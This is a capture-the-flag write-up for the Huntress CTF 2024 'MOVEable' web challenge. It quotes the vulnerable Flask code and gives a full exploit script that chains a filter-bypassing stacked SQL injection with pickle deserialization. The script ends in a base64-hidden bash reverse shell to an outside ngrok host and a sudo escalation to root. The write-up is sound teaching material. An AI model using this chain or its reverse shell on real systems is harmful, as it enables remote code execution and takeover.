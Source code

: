 # MOVEable

![image](https://github.com/user-attachments/assets/ce4e478b-57f1-4eed-b612-2d9d3041c9b3)

Download: [app.zip](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/app.zip)

## My Solution

For this web challenge, we just have a login screen:  

![image](https://github.com/user-attachments/assets/d45669b2-9c38-4e8b-bc3c-e9abf5925bfb)

There is some sanitization in the form of the `DBClean` function.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

However, we can easily bypass this by using `/**/` instead of space and the single quote can be bypassed by escaping it with a backslash.

The `login` function uses [executescript](https://docs.python.org/3/library/sqlite3.html#sqlite3.Connection.executescript) for the login where we have SQL injection instead of using just "execute". This allows us to execute multiple SQL statements.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    print(user)
    if user:
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))
```

The upload endpoint is nerfed:  

```python
@app.route('/upload', methods=['POST'])
@login_required
def upload_file():
    flash('Sorry, the administrator has temporarily disabled file upload capability.')
    return redirect(url_for('files'))
```

But we don't need it because the `download` endpoint doesn't require authentication and it pickle loads the filedata which we could insert into using the SQL injection. We also need to insert an active session for the code to follow the correct logic.

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

With the script below we create the pickle data that would execute our payload when it gets loaded and give us a reverse shell.

```python
import base64
import pickle
import os
import requests

class serial():
    def __reduce__(self):               
        return os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNTA2NSAwPiYx|base64 -d|bash',)

code = pickle.dumps(serial())
code = base64.b64encode(code)
revshell = code.decode()

url = 'http://challenge.ctf.games:32766/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}
data = '''username=s&password=\\';INSERT/**/INTO/**/activesessions/**/VALUES(\\'lazytitan\\',\\'lazytitan\\',\\'time\\');INSERT/**/INTO/**/files/**/VALUES(\\'payload\\',\\'%s\\',NULL);--";''' % revshell
requests.post(url, data=data, headers=header)

url2 = 'http://challenge.ctf.games:32766/download/payload/lazytitan'
requests.get(url2)
```

Once we have a foothold, we check our sudo permissions and see we can execute all commands as root without requiring authentication so we sudo bash to root and get the flag:  

![image](https://github.com/user-attachments/assets/16defa32-0711-41bd-94d6-167e42be516e)

`flag{ac53cd7aa8a2d1b2340a6eb4a356709e}`
